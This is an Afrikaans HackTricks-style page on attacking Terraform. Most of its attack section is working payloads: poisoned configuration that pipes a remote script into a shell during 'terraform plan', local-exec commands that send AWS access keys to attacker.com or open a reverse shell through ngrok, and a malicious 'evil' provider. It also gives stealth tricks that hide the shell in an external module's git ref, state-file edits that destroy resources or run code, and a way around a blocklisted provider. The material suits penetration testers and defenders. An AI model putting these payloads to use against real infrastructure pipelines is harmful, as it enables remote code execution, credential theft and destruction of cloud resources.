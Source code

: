 # Terraform Sekuriteit

<details>

{% hint style="success" %}
Leer & oefen AWS Hack: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hack: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kontroleer die [**inskrywingsplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
{% endhint %}

## Basiese Inligting

[Van die dokumente:](https://developer.hashicorp.com/terraform/intro)

HashiCorp Terraform is 'n **infrastruktuur as kode-instrument** wat jou in staat stel om beide **wolke en on-prem-bronne** in mens-leesbare konfigurasie lêers te definieer wat jy kan weergawe, hergebruik, en deel. Jy kan dan 'n konsekwente werkstroom gebruik om al jou infrastruktuur deur sy lewensiklus te voorsien en te bestuur. Terraform kan laagvlak komponente bestuur soos rekenaars, stoorplek, en netwerkbronne, sowel as hoëvlak komponente soos DNS inskrywings en SaaS kenmerke.

### Hoe werk Terraform?

Terraform skep en bestuur bronne op wolk platforms en ander dienste deur hul toepassingsprogrammeerinterfaces (API's). Verskaffers maak dit moontlik vir Terraform om met bykans enige platform of diens met 'n toeganklike API te werk.

![](<../.gitbook/assets/image (177).png>)

HashiCorp en die Terraform gemeenskap het reeds **meer as 1700 verskaffers** geskryf om duisende verskillende tipes bronne en dienste te bestuur, en hierdie getal bly groei. Jy kan al die openlik beskikbare verskaffers op die [Terraform Register](https://registry.terraform.io/) vind, insluitend Amazon Web Services (AWS), Azure, Google Cloud Platform (GCP), Kubernetes, Helm, GitHub, Splunk, DataDog, en baie meer.

Die kern Terraform werkvloei bestaan uit drie fases:

* **Skryf:** Jy definieer bronne, wat oor verskeie wolkverskaffers en dienste kan wees. Byvoorbeeld, jy kan 'n konfigurasie skep om 'n toepassing op virtuele rekenaars in 'n Virtuele Privaatwolk (VPC) netwerk met sekuriteitsgroepe en 'n vragbalansierder te ontplooi.
* **Plan:** Terraform skep 'n uitvoeringsplan wat die infrastruktuur beskryf wat dit sal skep, opdateer, of vernietig gebaseer op die bestaande infrastruktuur en jou konfigurasie.
* **Toepassing:** Op goedkeuring voer Terraform die voorgestelde operasies in die korrekte volgorde uit, met inagneming van enige hulpbronafhanklikhede. Byvoorbeeld, as jy die eienskappe van 'n VPC opdateer en die aantal virtuele rekenaars in daardie VPC verander, sal Terraform die VPC herskep voordat dit die virtuele rekenaars skaal.

![](<../.gitbook/assets/image (215).png>)

## Terraform Laboratorium

Installeer net terraform op jou rekenaar.

Hier het jy 'n [gids](https://learn.hashicorp.com/tutorials/terraform/install-cli) en hier het jy die [beste manier om terraform af te laai](https://www.terraform.io/downloads).

## RCE in Terraform

Terraform het **nie 'n platform wat 'n webbladsy of 'n netwerkdienste blootstel** wat ons kan opnoem nie, daarom is die enigste manier om terraform te kompromiteer om **in staat te wees om terraform konfigurasie lêers by te voeg/wysig**.

Nietemin, terraform is 'n **baie sensitiewe komponent** om te kompromiteer omdat dit **bevoorregte toegang** tot verskillende plekke sal hê sodat dit behoorlik kan werk.

Die hoofmanier vir 'n aanvaller om die stelsel waar terraform loop te kan kompromiteer, is om **die bewaarplek wat terraform konfigurasies stoor te kompromiteer**, omdat hulle op 'n stadium **geïnterpreteer** gaan word.

Eintlik is daar oplossings daar buite wat **terraform plan/apply outomaties uitvoer nadat 'n PR** geskep is, soos **Atlantis**:

{% content-ref url="atlantis-security.md" %}
[atlantis-security.md](atlantis-security.md)
{% endcontent-ref %}

As jy in staat is om 'n terraform lêer te kompromiteer, is daar verskillende maniere waarop jy RCE kan uitvoer wanneer iemand `terraform plan` of `terraform apply` uitvoer.

### Terraform plan

Terraform plan is die **mees gebruikte bevel** in terraform en ontwikkelaars/oplossings wat terraform gebruik, noem dit die hele tyd, so die **maklikste manier om RCE te kry** is om seker te maak jy vergiftig 'n terraform konfigurasie lêer wat arbitêre bevele sal uitvoer in 'n `terraform plan`.

#### Gebruik 'n eksterne verskaffer

Terraform bied die [`external` verskaffer](https://registry.terraform.io/providers/hashicorp/external/latest/docs) aan wat 'n manier bied om tussen Terraform en eksterne programme te skakel. Jy kan die `external` data bron gebruik om arbitêre kode tydens 'n `plan` uit te voer.

Om in 'n terraform konfigurasie lêer iets soos die volgende in te spuit sal 'n omgekeerde skul uitvoer wanneer 'n `terraform plan` uitgevoer word:
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### Gebruik van 'n aangepaste verskaffer

'n Aanvaller kan 'n [aangepaste verskaffer](https://learn.hashicorp.com/tutorials/terraform/provider-setup) stuur na die [Terraform Register](https://registry.terraform.io/) en dit dan by die Terraform-kode in 'n kenmerktak voeg ([voorbeeld van hier](https://alex.kaskaso.li/post/terraform-plan-rce)):
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```
Die verskaffer word afgelaai in die `init` en sal die skadelike kode hardloop wanneer `plan` uitgevoer word

Jy kan 'n voorbeeld vind in [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec)

#### Gebruik van 'n eksterne verwysing

Beide genoemde opsies is nuttig maar nie baie sluipend nie (die tweede is sluiper maar meer kompleks as die eerste). Jy kan hierdie aanval selfs op 'n **sluiperiger manier** uitvoer deur hierdie voorstelle te volg:

* In plaas daarvan om die rev shell direk in die terraform-lêer by te voeg, kan jy **'n eksterne hulpbron laai** wat die rev shell bevat:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
Jy kan die rev shell-kode vind in [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)

* In die eksterne bron, gebruik die **ref** funksie om die **terraform rev shell-kode in 'n tak** binne die repo te verberg, iets soos: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Terraform Toepassing

Terraform toepassing sal uitgevoer word om al die veranderinge toe te pas, jy kan dit ook misbruik om RCE te verkry deur **'n kwaadwillige Terraform-lêer met** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)** in te spuit.**\
Jy moet net seker maak dat 'n paar payloads soos die volgende in die `main.tf`-lêer eindig:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
Volg die **aanbevelings van die vorige tegniek** om hierdie aanval op 'n **meer onopvallende manier met behulp van eksterne verwysings** uit te voer.

## Geheime Uitlek

Jy kan **geheime waardes wat deur terraform gebruik word uitgelek** deur `terraform apply` te hardloop deur iets soos die volgende by die terraform-lêer te voeg:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
## Misbruik van Terraform-staat lêers

In die geval dat jy skryftoegang het tot terraform-staat lêers maar nie die terraform-kode kan verander nie, [**hierdie navorsing**](https://blog.plerion.com/hacking-terraform-state-privilege-escalation/) bied 'n paar interessante opsies om voordeel te trek uit die lêer:

### Verwydering van bronne <a href="#deleting-resources" id="deleting-resources"></a>

Daar is 2 maniere om bronne te vernietig:

1. **Voeg 'n bron met 'n lukrake naam in die staat lêer in wat na die werklike bron wat vernietig moet word, verwys**

Omdat terraform sal sien dat die bron nie behoort te bestaan nie, sal dit dit vernietig (met die werklike bron-ID aangedui). Voorbeeld van die vorige bladsy:
```json
{
"mode": "managed",
"type": "aws_instance",
"name": "example",
"provider": "provider[\"registry.terraform.io/hashicorp/aws\"]",
"instances": [
{
"attributes": {
"id": "i-1234567890abcdefg"
}
}
]
},
```
2. **Wysig die hulpbron om te verwyder op 'n manier wat dit nie moontlik is om te opdateer nie (sodat dit verwyder en herskep sal word)**

Vir 'n EC2-instantie is dit genoeg om die tipe van die instansie te wysig om terraform te dwing om dit te verwyder en herskep.

### RCE

Dit is ook moontlik om 'n [aangepaste verskaffer te skep](https://developer.hashicorp.com/terraform/tutorials/providers-plugin-framework/providers-plugin-framework-provider) en een van die verskaffers in die terraform statuslêer te vervang met die skadelike een, of 'n leë hulpbron met die skadelike verskaffer by te voeg. Voorbeeld van die oorspronklike navorsing:
```json
"resources": [
{
"mode": "managed",
"type": "scaffolding_example",
"name": "example",
"provider": "provider[\"registry.terraform.io/dagrz/terrarizer\"]",
"instances": [

]
},
```
## Vervang geswartlysde verskaffer

In die geval waar jy 'n situasie teëkom waar `hashicorp/external` geswartlys is, kan jy die `external` verskaffer herimplementeer deur die volgende te doen. Let wel: Ons gebruik 'n fork van die eksterne verskaffer wat gepubliseer is deur https://registry.terraform.io/providers/nazarewk/external/latest. Jy kan ook jou eie fork of herimplementering publiseer.
```terraform
terraform {
required_providers {
external = {
source  = "nazarewk/external"
version = "3.0.0"
}
}
}
```
Dan kan jy `external` soos normaal gebruik.
```terraform
data "external" "example" {
program = ["sh", "-c", "whoami"]
}
```
## Ouditgereedskap

* [**tfsec**](https://github.com/aquasecurity/tfsec): tfsec gebruik statiese analise van jou terraform-kode om potensiële verkeerde konfigurasies op te spoor.
* [**terascan**](https://github.com/tenable/terrascan): Terrascan is 'n statiese kode analiseerder vir Infrastruktuur as Kode.

## Verwysings

* [Atlantis Security](atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)
* [https://developer.hashicorp.com/terraform/intro](https://developer.hashicorp.com/terraform/intro)
* [https://blog.plerion.com/hacking-terraform-state-privilege-escalation/](https://blog.plerion.com/hacking-terraform-state-privilege-escalation/)

<details>

{% hint style="success" %}
Leer & oefen AWS-hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP-hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kontroleer die [**inskrywingsplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
{% endhint %}
